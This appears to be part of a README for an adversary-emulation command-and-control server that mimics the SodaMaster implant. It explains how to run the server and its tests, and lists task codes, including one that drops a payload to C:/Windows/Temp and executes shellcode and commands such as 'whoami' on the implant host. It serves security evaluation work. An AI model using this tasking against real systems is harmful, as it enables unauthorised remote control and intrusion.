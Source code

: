 Run the `controlServer` binary as `sudo` and monitor the output to see SodaMaster handler updates. Ex:
```
sudo ./controlServer -c ./config/your_handler_config.yml
```

### Testing

Unit tests for the SodaMaster TCP handler are available in the `sodamaster_test.go` file. To run these tests, run the following command from the `evalsC2server` directory:
```
sudo go test ./...
```

To run only a single test, navigate to the `evalsC2server\handlers\sodamaster` directory and run:
```
sudo go test -run NameOfTestFunction
```

### Tasking

To submit a task to the C2 server, pass the task information to the REST API server in a JSON dictionary string containing the following fields: 
| Field | Data Type | Necessity | Description |
| ------------ | ----------- | ----------- |----------- |
| id | string | required | The ID of the task the implant will execute. A table detailing the different tasks is available below. |
| payload | string | optional | The name of the server-side payload to deliver as part of the task. |
| payloadPath | string | optional | The path to write the payload to on disk. |
| args | string | optional | Command line arguments for the implant to execute. Should only be supplied with task `s` (execute). |
| cmd | string | optional | Any information the implants needs to complete the task. Ie. for task `l` (sleep), the command would be the number of seconds to sleep |

The following table contains the various acceptable commands and their meanings:
| Command      | Length | Arguments | Implant Output | Description |
| -----------  | ------ | --------- | -------------- | ----------- | 
| w | Variable | Message box title, Message box text | None | Pops up a message box on the implant host |
| x | 0 | NULL | None | Exit's the implant process |
| l | Variable | Beacon timer | None | Set the sleep time inbetween implant check-in's |
| s | Variable | Payload name, Payload path (optional), CLI arguments | Process output if CLI args are supplied | Compiles an execution template that will write a desired payload to disk and/or execute any provided CLI arguments. Payload path is an optional parameter (default is `C:/Windows/Temp`). Either the payload name AND/OR the CLI arguments have to be supplied. More details on the execution template used for the "s" command can be found [here](./template/README.md). |

Use the following format to submit the commands from the `evalsC2server` directory:
```
./evalsC2client.py --set-task <UUID> '{"id":"<id>", "payload":"<payload name>", "payloadPath":"<path/to/payload>", "args":"<args>", "cmd":"<commands>"}'
```

Example commands:
- "l": Will tell the implant to set its sleep to 15 seconds
  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"l", "cmd":"15"}'
  ```
- "w": Will tell the implant to pop a message box with text 'Hello World!'
  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"w", "cmd":"Hello World!"}'
  ```
- "s": Will recompile the execution template with 'payload.exe' and args 'whoami' and send the shellcode bytes to the implant to execute
  ```
  ./evalsC2client.py --set-task <UUID> '{"id":"s", "payload":"payload.exe", "payloadPath":"C:/Windows/Temp", "args":"whoami"}'
  ```
